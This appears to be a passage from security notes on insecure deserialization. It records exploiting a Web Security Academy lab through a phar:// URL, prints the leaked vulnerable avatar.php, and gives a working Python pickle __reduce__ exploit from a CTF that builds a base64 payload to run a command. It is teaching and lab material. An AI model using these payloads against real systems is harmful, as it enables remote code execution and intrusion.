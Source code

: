 Deserialized the uploaded file and executed arbitrary code:
`https://0a4e005b03cdec9d80802bd800e20052.web-security-academy.net/cgi-bin/avatar.php?avatar=phar://wiener`

Exfiltrated *avatar.php*:
```php
<?php

require_once('CustomTemplate.php');
require_once('Blog.php');

chdir('../avatars/');

$avatar_file_path = $_GET['avatar'] . '.jpg';

if (file_exists($avatar_file_path)) {
    if (strpos($_GET['avatar'], "\\") !== false || strpos($_GET['avatar'], "/") !== false || strpos($_GET['avatar'], ".") !== false) {
        throw new Exception("File name is invalid: " . $avatar_file_path);
    }
    header("content-type: image/jpeg");
    readfile($avatar_file_path); // not checking for PHAR
} else {
    header("Status: 404 Not Found");
    echo "Not Found";
}

?>
```

## Python

### Pickle

Pickle is a Python module used to serialize and deserialize objects. As also said within the official documentation, pickle is not secure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling through the use of the `__reduce__()` method.

- [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Example from [**baby website rick**](https://www.notion.so/baby-website-rick-6f001c5e8ffa48eab3f9ab57073a876f) 

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['cat', 'flag_wIp1b']
		#return os.system, (cmd,)
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
#print "Payload: "+payload
```

[^polyglot]: https://github.com/kunte0/phar-jpg-polyglot/tree/master
[^34040]: [Java Deserialization Vulnerability Still Alive](https://blog.pyn3rd.com/2023/10/20/Java-Deserialization-Vulnerability-Still-Alive/), pyn3rd.com